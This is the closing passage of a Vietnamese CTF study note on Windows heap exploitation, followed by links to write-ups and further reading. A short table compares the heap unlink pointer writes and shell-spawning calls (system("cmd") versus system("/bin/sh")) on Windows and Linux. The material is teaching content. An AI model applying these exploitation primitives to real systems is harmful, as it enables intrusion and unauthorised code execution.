  |unlink			|*(fd+4)=bk, *bk=fd				|*(fd+12)=bk, *(bk+8)=fd|
  |getshell			|system("cmd")					|system("/bin/sh")	|
  
# Mở rộng:
  ## Các chủ đề khác:
    + [ogeek ctf 2019 win pwn babyheap detailed](https://xz.aliyun.com/t/6319).
    + [HITB GSEC BABYSTACK — Preliminary study of win pwn](http://blog.eonew.cn/archives/1182).
    + [HITB GSEC CTF WIN PWN Full Record of Problem Solving BABYSTACK](https://whereisk0shl.top/post/hitb_gsec_ctf_babystack_writeup).
    + [SUCTF 2019 PWN](https://kirin-say.top/2019/08/19/SUCTF-2019-PWN/).
    + [Windows Pwn First Blood](http://matshao.com/2019/02/04/Windows-Pwn-First-Blood/).
    + [Windows-pwn problem solving principle & detailed explanation of using techniques](https://www.anquanke.com/post/id/188170#h3-8).
  ## Đọc thêm:
    + [Getting started with Windows Pwn](https://ble55ing.github.io/2019/08/18/WindowsPwn1/).
    + [How to deploy Pwn questions under Windows in CTF?](https://www.zhihu.com/question/286944913).
    + [Some thoughts about Windows pwn](http://blog.eonew.cn/archives/1245).
    + [WINDOWS pwn study notes (continuous update](http://39.107.244.116/2019/09/24/windows-pwn-%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0%EF%BC%88%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%EF%BC%89/).
    + [Windows Pwn-stack overflow](https://www.cnblogs.com/iamstudy/articles/windows_pwn_stack_overflow.html).
    + [Heap overflow utilization technology under Windows platform (XP SP1)](http://books.0x10dx.com/%E6%9C%AA%E5%88%86%E7%B1%BB/Windows%20%E5%B9%B3%E5%8F%B0%E4%B8%8B%E7%9A%84%E5%A0%86%E6%BA%A2%E5%87%BA%E3%80%81%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%8A%80%E6%9C%AF.pdf).
    + [Talking about Win10 vulnerability exploitation protection](https://www.kanxue.com/book-8-66.htm).
    + [What are the advantages and disadvantages of C/C++ compilers such as GCC/G++, ICC, Clang, MSVC, BCC?](https://www.zhihu.com/question/23789676).

# Tham khảo: [`Getting started with SCTF 2020 EasyWinHeap Windows Pwn`](https://xuanxuanblingbling.github.io/ctf/pwn/2020/07/09/winpwn/?fbclid=IwAR1goy2nYXxkLKbq_cayyHaBtAEZSb2PsIj2ly7Km3zOjWBHQkhxR7zML5E)

**_DatntSec. Viettel Cyber Security._**
